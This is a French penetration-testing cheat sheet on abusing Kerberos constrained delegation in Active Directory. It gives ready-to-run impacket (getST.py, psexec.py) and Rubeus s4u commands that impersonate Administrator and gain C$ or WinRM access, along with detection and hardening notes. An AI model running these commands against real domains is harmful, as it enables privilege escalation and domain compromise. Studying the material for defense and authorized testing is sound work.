

# 🔗 Kerberos — Constrained Delegation

> [!info] **En 1 phrase**
> La délégation contrainte limite un service à **s'impersonner les utilisateurs vers une liste précise de SPN** :
> avec le hash du compte de service, on obtient un ST en tant qu'**Administrator** via S4U2Self + S4U2Proxy.

---

## 🎯 Concept



> [!info] 💡 **Le mécanisme**
> Deux extensions du protocole :
> - **S4U2Self** : le service demande un ST pour la cible **sans que celle-ci s'authentifie** — il se fait passer pour elle.
> - **S4U2Proxy** : ce ST est présenté pour obtenir un **nouveau ST vers un SPN** listé dans `msDS-AllowedToDelegateTo`.
> Le KDC n'autorise S4U2Proxy que si le compte de service a cet attribut renseigné → c'est cet attribut qu'on cherche.

---

## 🛠️ Exploitation

> Nécessite : le **mot de passe ou hash** du compte (service ou machine) autorisé à déléguer.

**1. Trouver les comptes autorisés à déléguer :**

```bash
Get-NetComputer -TrustedToAuth | select samaccountname,msds-allowedtodelegateto
nxc ldap 10.10.10.10 -u user -p pass --trusted-to-auth
```

**2. Demander un ST en tant qu'Administrator (impacket) :**

```bash
getST.py -spn HOST/SQL01.DOMAIN 'DOMAIN/user:password' -impersonate Administrator -dc-ip 10.10.10.10
export KRB5CCNAME=Administrator.ccache
psexec.py -k -no-pass 'DOMAIN/Administrator@SQL01.DOMAIN'
```

**3. Ou avec Rubeus (S4U2Self + S4U2Proxy) :**

```powershell
Rubeus.exe s4u /nowrap /msdsspn:"time/target.local" /altservice:cifs /impersonateuser:"administrator" /domain:"domain" /user:"user" /password:"password"
Rubeus.exe s4u /user:MACHINE$ /rc4:<hash> /impersonateuser:Administrator /msdsspn:"cifs/dc.domain.com" /altservice:cifs,http,host,rpcss,wsman,ldap /ptt
dir \\dc.domain.com\c$
```

**4. Services souvent autorisés et ce qu'ils ouvrent :**

| SPN | Ce que ça ouvre |
|---|---|
| `CIFS/` | Partage de fichiers, **C$** sur la cible |
| `HOST/` | Tâches planifiées (SchTasks) — quasi-admin |
| `HTTP/` | **WinRM** (WSMan) si le port 5985 est ouvert |
| `LDAP/` | Réplication → **DCSync** possible |
| `MSSQL/` | Accès SQL |

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **userAccountControl** | `TRUSTED_TO_AUTH_FOR_DELEGATION` (bit `16777216`) sur le compte service |
| **msDS-AllowedToDelegateTo** | La liste des SPN autorisés — plus elle est large (CIFS/HOST/HTTP), plus le risque est élevé |
| **Événement 4769** | TGS demandé avec options `forwardable` + flag d'impersonation (S4U2Proxy) |
| **Réponse** | Moindre privilège strict ; préférer les **gMSA** ; éviter les SPN CIFS/HOST/HTTP combinés |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **`/altservice` : l'astuce qui change tout**
> Le SPN déclaré (`time/dc`) peut être échangé contre des **SPN alternatifs** (`cifs,http,host,rpcss,wsman,ldap`) — un SPN faible se transforme en accès fichiers ou WinRM.

> [!warning] ⚠️ **Piège** : le hash d'un compte **machine** ne se cracke pas — il vient du **dump LSASS/SAM** de la machine compromise. On l'utilise directement via `Rubeus.exe s4u /rc4:<hash>`.

> [!warning] ⚠️ **Piège** : S4U2Self/S4U2Proxy échouent sur les comptes **Protected Users** ou "sensitive and cannot be delegated" — sauf via [[Kerberos - Bronze Bit|Bronze Bit]] (si non patché).

---

> [!info] 📚 **Sources**
> - [InternalAllTheThings — Kerberos Delegation](https://github.com/swisskyrepo/InternalAllTheThings/tree/main/docs/active-directory)
> - [Harmj0y — Another Word on Delegation](https://blog.harmj0y.net/activedirectory/another-word-on-delegation/)
> - [The Hacker Recipes — Delegations](https://www.thehacker.recipes/ad/movement/kerberos/delegations)

➡️ **Liens :** [[Kerberos Delegation|🎯 Hub Délégation]] · [[Kerberos - Unconstrained Delegation|🔓 Unconstrained]] · [[Kerberos - RBCD (Resource-Based Constrained Delegation)|🧬 RBCD]] · [[Kerberos - Bronze Bit|🥉 Bronze Bit]] · [[Kerberos - Le protocole|👑 Kerberos]]
